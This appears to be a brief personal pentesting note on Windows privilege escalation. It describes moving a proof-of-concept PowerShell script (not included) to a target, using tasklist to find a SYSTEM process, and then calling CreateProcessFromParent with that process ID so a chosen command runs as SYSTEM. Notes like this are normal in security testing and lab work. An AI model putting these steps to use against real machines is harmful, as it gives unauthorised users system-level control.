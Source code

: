 Use this to elevate privs

First need to transfer [[Poc Script]] to target machine
Next we just load the script and run it with the following syntax `[MyProcess]::CreateProcessFromParent(<system_pid>,<command_to_execute>,"")`

Need to find task that is running as SYSTEM
```
tasklist
```
	![[Pasted image 20241010131911.png]]
Next run script
```
.\scipt.ps1; [MyProcess]::CreateProcessFromParent(<system_pid>,<command_to_execute>,"")
```
![[Pasted image 20241010132352.png]]
